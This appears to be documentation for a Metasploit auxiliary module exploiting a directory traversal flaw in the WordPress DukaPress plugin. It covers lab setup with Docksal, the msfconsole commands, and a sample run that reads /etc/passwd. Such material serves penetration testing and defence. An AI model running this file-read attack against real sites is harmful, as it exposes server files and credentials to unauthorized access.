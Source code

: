 ## Description

This module exploits a directory traversal vulnerability in WordPress Plugin
"DukaPress" version 2.5.3, allowing to read arbitrary files with the
web server privileges.

## Vulnerable Application

### Wordpress with installed DukaPress <= 2.5.3
* [https://wordpress.org/plugins/dukapress](https://wordpress.org/plugins/dukapress)
* [Plugin v2.5.3](https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip)

### Setup using Docksal
Install [Docksal](https://docksal.io/)

Create a new Wordpress installation using `fin project create`

```
fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download the wordpress plugin

```
cd msf-wp/wp-content/plugins
wget https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip
unzip dukapress.2.5.3.zip

```

Login and click on DukaPress "Activate" Link

```
http://msf-wp.docksal/wp-admin/plugins.php
user: admin
pass: admin
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_dukapress_file_read```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```run```

## Options

### FILEPATH

The path to the file to read (default: `/etc/passwd`)

### DEPTH

Traversal Depth (to reach the root folder) (default: `7`)


## Scenarios

### Wordpress 5.2 running in Docksal

Follow the Instructions above to setup the Docksal Containers.

````
msf > use auxiliary/scanner/http/wp_dukapress_file_read
msf > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/bash

[+] File saved in: /home/weh/.msf4/loot/20191009203058_default_192.168.64.100_dukapress.file_560342.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
